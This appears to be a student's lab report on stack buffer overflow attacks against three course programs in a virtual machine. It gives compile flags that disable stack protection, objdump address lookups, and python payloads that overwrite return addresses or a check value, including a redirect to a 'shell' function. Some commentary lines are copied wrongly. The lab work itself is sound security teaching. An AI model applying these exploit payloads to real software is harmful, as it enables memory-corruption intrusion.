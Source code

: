  22110042 Doan Minh Khanh
# Lab 1 

**Conduct buffer overflow attack on bof1.c, bof2.c, bof3.c programs.**

First of all, connect to the virtual machine

>![docker access](./IS_lab1/dockerlogin.png)

## Bof1.c
Create file bof1.out from bof.c
>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 

>> -fno-stack-protector: no protection for stack, easier to write overflow

>> -mpreferred-stack-boundary=2: changes how memory is arranged on the stack > the stack alignment to 4 bytes (instead of 16 bytes)


Stack frame
> ![image](./IS_lab1/stack-bof1.png)
We need to buffer overflow at the 205th byte

Get secretFunc() addr
> objdump -d bof1.out|grep secretFunc

>![image](./IS_lab1/secFunc_addr.png)

Run the command (204 bytes + return address)
>echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out   

We have the sucessful buffer
>![image](./IS_lab1/buff-bof1.png)

## Bof2.c

Create file bof1.out from bof.c
>gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 

>> -fno-stack-protector: no protection for stack, easier to write overflow

>> -mpreferred-stack-boundary=2: changes how memory is arranged on the stack > the stack alignment to 4 bytes (instead of 16 bytes)

Stack frame:
>![image](./IS_lab1/stackbof2.png)
Buf contains 40 bytes but fgets reads up 44 elements so we depend on the last 4 elements to modify the check =  0xdeadbeef


Run the command (204 bytes + return address)
>echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out   

We have the sucessful buffer
>![image](./IS_lab1/overflow-bof2.png)

## Bof3.c

Create file bof1.out from bof.c
>gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 

>> -fno-stack-protector: no protection for stack, easier to write overflow

>> -mpreferred-stack-boundary=2: changes how memory is arranged on the stack > the stack alignment to 4 bytes (instead of 16 bytes)

Stack frame:
>![image](./IS_lab1/stackbof3.png)
Buf contains 128 bytes but fgets reads up 133 elements so we depend on the last 4 elements to modify into *shell* function address

Get shell addr = 0804845b
> objdump -d bof3.out|grep shell

>![image](./IS_lab1/shell_addrr.png)

Run the command (204 bytes + return address)
>echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out   

We have the sucessful buffer
>![image](./IS_lab1/success_bof3.png)